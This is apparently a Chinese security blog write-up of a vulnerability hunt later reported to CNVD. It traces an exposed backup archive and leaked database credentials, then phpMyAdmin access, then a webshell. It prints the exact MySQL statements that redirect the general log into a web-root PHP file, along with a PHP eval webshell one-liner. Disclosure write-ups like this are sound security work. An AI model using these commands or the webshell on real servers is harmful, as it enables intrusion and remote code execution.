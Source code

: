 #  一次CNVD漏洞挖掘过程  
zzzurl  蓝云Sec   2025-06-18 16:01  
  
1、被测网站  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IS2RlFMDPK7C9oVgOBoX4R1RE00tQDtQUfSWEOz0etPWgPTZUFnKfDLdltU4d6UrWBYlq9OaVsQ0ib62SZg7Q3Q/640?wx_fmt=png&from=appmsg "")  
  
2、使用cmd命令查询该网站ip地址，  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IS2RlFMDPK7C9oVgOBoX4R1RE00tQDtQKjXLTTtmVEAAE5PnOBQKBOXQtNxMqhmvQ9icd3Pv288tMWULZGnAa9Q/640?wx_fmt=png&from=appmsg "")  
  
3、使用ip直接访问，改地址可直接下载文件（猜测应该是配置失误导致）  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IS2RlFMDPK7C9oVgOBoX4R1RE00tQDtQtCqSOqpNqWnTlKMEWibYwf3LdnqSX9O5uSeCibwYsMaWZCjLOgRVYppg/640?wx_fmt=png&from=appmsg "")  
  
4、发现该目录下有备份文件xxx.rar下载该文件  
  
5、找到文件中的敏感文件  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IS2RlFMDPK7C9oVgOBoX4R1RE00tQDtQFtFv6tJWIBcTqgPTkL9kGe1yYomc7tph01sib4t7BpEG0sHEnAV5oQA/640?wx_fmt=png&from=appmsg "")  
  
6、里面有数据库账号密码；  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IS2RlFMDPK7C9oVgOBoX4R1RE00tQDtQlAVoImuY2b6aucQj8xNJx5EIT8nLMdSsGP10Vc8J0PBmuYZ68RxvSw/640?wx_fmt=png&from=appmsg "")  
  
7、因为是php搭建有phpmyadmin使用phpmyadmin登陆  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IS2RlFMDPK7C9oVgOBoX4R1RE00tQDtQibXibM8WHMdnjJHLkzic2T1cuqYuunB6atk65uV8N8P7LerygyJ4gpQqA/640?wx_fmt=png&from=appmsg "")  
  
8、直接使用sql写入getshell  
  
9、通过写入日志文件getshell  
  
10、读写权限+web绝对路径，修改日志文件为webshell  
**具体利用方法如下:**  
  
(1) 开启日志记录:  
  
set global general_log = "ON";  
  
(2) 查看当前的日志目录:  
  
show variables like 'general%';  
  
(3) 指定日志文件(目录结构可以直接访问phpinfo)  
  
set global general_log_file = "C:/phpStudy/WWW/404.php";  
  
(4)写入执行代码：  
  
select "<?php $string=@$_POST['b'];eval('$string');?>";  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IS2RlFMDPK7C9oVgOBoX4R1RE00tQDtQvGiby6Ld2V90gYC2cWOBMB9Sibwm9GD9X1EvfBMOkDWXRIzHPMARib1jw/640?wx_fmt=png&from=appmsg "")  
  
最后getshell连接  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IS2RlFMDPK7C9oVgOBoX4R1RE00tQDtQ8FMuWvHFpyjZ5ib4CIPRKIgOOcuiaqyQq1FXLVJRhrlGAmnVE2ibic5ib6Q/640?wx_fmt=png&from=appmsg "")  
  
已上传到CNVD  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IS2RlFMDPK7C9oVgOBoX4R1RE00tQDtQcsoahRKzYyTeeIPbKq66eicibWhxWMZnkpfSiaMVbyPsAabOVLNddzbnQ/640?wx_fmt=png&from=appmsg "")  
  
